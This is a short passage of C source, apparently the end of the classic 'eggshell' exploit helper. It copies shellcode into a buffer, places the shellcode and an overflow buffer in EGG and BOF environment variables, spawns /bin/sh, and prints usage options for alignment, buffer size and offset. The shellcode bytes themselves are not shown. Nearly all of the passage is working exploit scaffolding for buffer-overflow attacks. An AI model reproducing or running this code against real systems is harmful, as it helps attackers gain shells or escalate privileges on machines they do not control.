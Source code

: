   for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  bof[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';

  memcpy(egg,"EGG=",4);
  putenv(egg);

  memcpy(bof,"BOF=",4);
  putenv(bof);
  system("/bin/sh");
}

void usage(void) {
  (void)fprintf(stderr,
    "usage: eggshell [-a <alignment>] [-b <buffersize>] [-e <eggsize>] [-o <offset>]\n");
}
------------------------------------------------------------------------------
